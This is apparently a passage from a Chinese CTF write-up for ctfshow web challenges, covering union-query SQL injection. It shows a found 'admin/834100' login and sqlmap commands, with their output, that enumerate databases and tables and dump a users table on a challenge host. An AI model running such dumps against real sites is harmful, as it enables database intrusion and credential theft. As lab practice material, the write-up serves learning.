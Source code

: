 ![32](/medias/ctfshow-web/32.png)

admin/834100



## 第五章

### 联合查询注入

sqlmap秒了

```cmd
python3 sqlmap.py -u "https://5339d65e-55dc-434a-86b7-073e1c9f2d2d.challenge.ctf.show/?id=4" -p id --dbs --batch

available databases [5]:
[*] ctfshow_page_informations
[*] information_schema
[*] mysql
[*] performance_schema
[*] test

python3 sqlmap.py -u "https://5339d65e-55dc-434a-86b7-073e1c9f2d2d.challenge.ctf.show/?id=4" -p id --dbs --batch -D --tables

Database: ctfshow_page_informations
[2 tables]
+-------+
| pages |
| users |
+-------+
python3 sqlmap.py -u "https://5339d65e-55dc-434a-86b7-073e1c9f2d2d.challenge.ctf.show/?id=4" -p id --dbs --batch -D ctfshow_page_informations --tables -T users --dump

Database: ctfshow_page_informations
Table: users
[1 entry]
+----+----------------------------+----------+
| id | password                   | username |
+----+----------------------------+----------+
```
